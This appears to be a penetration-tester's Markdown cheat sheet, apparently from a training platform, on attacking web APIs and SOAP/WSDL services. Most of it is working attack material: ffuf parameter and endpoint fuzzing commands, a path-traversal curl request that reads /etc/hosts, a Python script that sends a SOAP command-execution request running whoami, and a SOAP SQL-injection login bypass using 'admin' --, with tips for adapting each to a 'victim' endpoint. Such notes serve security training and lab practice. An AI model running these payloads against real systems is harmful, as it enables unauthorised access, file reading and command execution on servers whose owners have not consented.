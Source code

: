 # API Attacks
## Testing for API functionality
1. Perform ffuf attack as follows:
```shell
ffuf -w "/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```
- If you find a valid parameter (ex: `id`), continue
2. Send requests with the found valid parameter to check responses:
```shell
curl http://<TARGET IP>:3003/?id=1
```
- If this works, create script and run to retrieve all information: [[1. Information Disclosure#Information Disclosure through Fuzzing]]
3. If this doesn't work, test for SQLi through same `id` paramater: [[1. Information Disclosure#Information Disclosure through SQL Injection]]


### Fuzz for API endpoints:
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```



### Check for LFI attack
```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```



## Testing for SSRF: [[5. Server-Side Request Forgery (SSRF)#Example Scenario]]


# WSDL File Found
## Finding Vulnerable Functions
### If WSDL file runs commands
1. Look through the WSDL file for:
	- `<wsdl:operation name="...">`
	- `<soap:operation soapAction="..." />` 
		- Look through the elements under this section and:
		- Look for risky functions in here (`exec`, `run`, `cmd`, `upload`, `admin`, `debug`, etc.)
2. If found interesting sections, we can build a script to make our own requests:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- Change the following based on your wsdl file:
	- `xmlns:tns=...` 
	- `ExecuteCommandRequest xmnls=...` 
	- `http://<TARGET IP>:3002/wsdl` - change to victims endpoint for their wsdl file
	- `"SOAPAction":'"ExecuteCommand"`

3. Execute script to run the `whoami` command:
```shell
python3 client_soapaction_spoofing.py
```




### If we find a SOAPAction parameter that sends username/password
1. Find a SOAPAction with username and password elements:
```xml
      <s:element name="LoginRequest">
        
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
            <s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
          </s:sequence>
        </s:complexType>
        
      </s:element>
```
2. Specify element name (`LoginRequest`) within `<soap:Body>`
3. Provide a SQLi that will allow us to login as a valid user (ex: `admin` -> `admin' --`) for the `<username>`
4. Provide any dummy password value for `<password>`
5. Then use following script to trigger the vulnerability:
```python
import requests

payload = "admin' --"
data = f'<?xml version="1.0" encoding="UTF-8"?> <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" xmlns:tns="http://tempuri.org/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <soap:Body> <LoginRequest xmlns="http://tempuri.org/"> <username>{payload}</username> <password>fff</password> </LoginRequest> </soap:Body> </soap:Envelope>'

print(requests.post("http://IP-ADDRESS:PORT/wsdl", data=data, headers={"SOAPAction":'"Login"'}).content)
```
- Change based on circumstances:
	- `admin' --` - Change with valid username
	- `xmlns:tns=...`
	- `<LoginRequest...` & `</LoginRequest>`
	- `<username>` - If it is called something different (ex: `user`, `usernamelogin`, etc.)
		- Same with `<password>`
	- `http://<TARGET IP>:3002/wsdl` - change to victims endpoint for their wsdl file

We can then run it with:
```shell
python3 sqli.py
```
